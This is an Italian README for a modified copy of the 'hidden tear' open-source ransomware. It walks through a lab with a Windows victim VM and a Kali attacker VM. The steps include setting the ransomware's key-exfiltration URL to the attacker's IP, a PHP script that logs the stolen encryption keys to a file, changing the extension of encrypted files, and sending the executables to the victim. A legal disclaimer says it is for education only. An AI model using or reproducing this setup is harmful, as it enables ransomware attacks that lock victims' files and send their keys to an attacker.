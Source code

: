 Copia dello storico ransomware open source:

         _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
                                                     
Per utilizzarlo mi sono servito di 
- due macchine virtuali: 
	- una con windows 10 che fungeva da vittima.
	- una con kali linux che faceva da attaccante.
- Il mio pc con visual studio installato. 

**Nel mio pc, con visual studio**

* A riga 40 del file *Form1.cs* aggiungere l'indirizzo IP della macchina con kali linux e l'indirizzamento al file keys.php (file che verrà spiegato nello successivamente nella guida):
```
  string targetURL = "http://192.168.17.128/keys.php?info=";                                                                     
```
* Nei file di encription e decription è stato corretto il problema del padding
* (opzionale) è possibile cambiare l'estensione dei file dopo la crittografia, nel mio caso sono settati a *.bloccato*, per farlo bisogna cambiare l'estensione sia nell'encrypter che nel decrypter.


**Nella macchina con kali linux**
* Nella cartella var/www/html creare un file data.txt e un file keys.php. Per farlo bisogna aprire un terminale nella cartella e lanciare:
```
sudo gedit data.txt
sudo gedit keys.php
         
```
* Con i permessi di amministratore settare l'accesso read and write al file data.txt da parte di www-data nella sezione group. Bisogna entrare nel file manager in modalità sudo, per entrarci ho eseguito:
```
sudo xdg-open .
```
* In *keys.php* ho inserito questo codice:
```
 <?php
	$info = $_GET['info'];
	$file = fopen("data.txt", "a");
	fwrite($file, $info."". PHP_EOL);
	fclose($file);
?>
         
```
* Infine aprire un terminale nella stessa cartella e lanciare:
```
service apache2 start                                                                           
```

**Alla macchina 'vittima'** 

* Inviare i file 
	- *hidden-tear.exe* che si trova in [\hidden-tear\hidden-tear\bin\Debug] 
	- e *hidden-tear-decripter.exe* che si trova in [hidden-tear\hidden-tear-decrypter\hidden-tear-decrypter\bin\Debug]

**Riferimento**

[Riferimento video](https://www.youtube.com/watch?v=ILlTB0-xT-k&t=387s)

**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.

Anche se questo può essere utile per alcuni, ci sono rischi significativi. Può essere utilizzato solo per scopi educativi. Non usarlo come ransomware! Potresti finire in prigione con l'accusa di ostruzione alla giustizia, anche se sei innocente.

Non mi assumo alcuna responsabilità per eventuali danni a persone, hardware o software, diretti o indiretti, che dovessero verificarsi come conseguenza dell’utilizzo dei miei progetti (inclusi, senza limitazioni, i danni all’integrità fisica e i danni per perdita o mancato guadagno, interruzione dell’attività, perdita di informazioni o altre perdite economiche).

